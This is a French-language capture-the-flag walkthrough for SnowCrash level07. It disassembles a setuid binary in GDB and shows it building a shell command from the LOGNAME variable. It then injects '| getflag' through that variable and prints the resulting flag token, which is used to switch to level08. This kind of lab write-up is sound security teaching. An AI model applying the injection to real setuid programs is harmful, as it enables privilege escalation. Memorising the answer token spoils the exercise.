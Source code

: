 # 07 - Binary exploit: environnement

- On se connecte en tant que level07.
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```
level07@SnowCrash:~$ ./level07
level07
```


- Un binaire nous a été laissé. Examinons-le de plus près avec [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level07/level07.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048384  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```


- Le programme appelle `<getenv@plt>` après avoir déplacé l'adresse `0x8048680` au sommet de la stack.
```
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
```


- `<getenv@plt>` va sauvegarder la valeur de la variable d'environnement `LOGNAME` dans le registre `eax`, et cette valeur sera passée en paramètre à la fonction `<asprintf@plt>`. Ensuite, l'adresse `0x8048688` sera également déplacée au sommet de la stack pour être utilisée par `<asprintf@plt>`.
```
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s"
```


- `<asprintf@plt>` stockera dans le registre `eax` l'adresse pointant vers la chaîne `/bin/echo %s`, où `%s` sera remplacé par la valeur de la variable d'environnement `LOGNAME`. Le résultat sera executé par `<system@plt>`, du coup:
```
level07@SnowCrash:~$ export LOGNAME="| getflag"
```

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

```
level07@SnowCrash:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```